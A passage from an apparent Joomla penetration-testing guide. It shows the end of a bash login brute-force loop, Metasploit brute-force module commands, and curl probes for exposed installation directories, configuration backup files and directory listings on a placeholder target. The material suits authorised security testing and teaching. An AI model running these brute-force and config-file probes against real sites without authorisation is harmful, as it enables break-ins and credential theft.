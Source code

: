 ```bash
            echo "[+] Success: $username:$password"
            exit 0
        fi
    done < "$passlist"
done < "$userlist"
```

#### Metasploit Brute Force Module
```bash
# Using Metasploit for Joomla brute force
msfconsole
use auxiliary/scanner/http/joomla_bruteforce_login
set RHOSTS target.com
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

---

## Joomla-Specific Vulnerability Patterns

### Common Security Issues

#### Installation Directory Exposure
```bash
# Check if installation directory exists (should be removed)
curl -I http://target.com/installation/

# If accessible, may reveal:
# - Database configuration
# - System information
# - Installation logs
```

#### Configuration Backup Files
```bash
# Look for configuration backups
curl -I http://target.com/configuration.php.bak
curl -I http://target.com/configuration.php.old
curl -I http://target.com/configuration.php~
```

#### Directory Listing Vulnerabilities
```bash
# Test for directory listing on key folders
directories=(
    "/administrator/components/"
    "/components/"
    "/modules/"
    "/plugins/"
    "/templates/"
    "/images/"
    "/media/"
)

for dir in "${directories[@]}"; do
    curl -s "http://target.com$dir" | grep -q "Index of" && echo "Directory listing: $dir"
done
```
